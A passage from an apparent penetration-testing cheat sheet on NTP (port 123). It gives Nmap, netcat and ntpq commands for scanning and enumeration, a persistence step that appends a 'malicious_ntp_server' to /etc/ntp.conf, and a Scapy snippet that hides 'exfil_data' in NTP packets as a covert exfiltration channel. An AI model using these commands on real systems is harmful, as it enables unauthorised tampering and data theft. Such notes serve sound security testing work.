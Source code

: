 *   **Tool:** \[\[Nmap]]

    ```bash
    nmap <target_ip> -p 123
    ```
* **Description:** Identifies if the target service is running on the target by scanning target port.

#### Service Enumeration

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 123
    ```
* **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.

\


*   **Tool:** \[\[ntpq]]

    ```bash
    ntpq -p <target_ip>
    ```
* **Description:** Enumerates the NTP service on the target to gather information about the time server hierarchy and stratum level.

### Persistence

#### Tampering with NTP Configuration

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo "server <malicious_ntp_server>" >> /etc/ntp.conf
    ```

service ntp restart \`\`\`

* **Description:** Altering the NTP configuration to point to a malicious server, causing persistent time drift or disruption.

### Data Exfiltration

#### Covert Channels via NTP

*   **Tool:** \[\[Scapy]], \[\[HPing3 Cheat Sheet]]

    ```python
    from scapy.all import *
    packet = IP(dst="<ntp_server_ip>")/UDP(dport=123)/Raw(load="exfil_data")
    send(packet)
    ```
* **Description:** Using NTP as a covert channel for data exfiltration by embedding data within NTP packets.
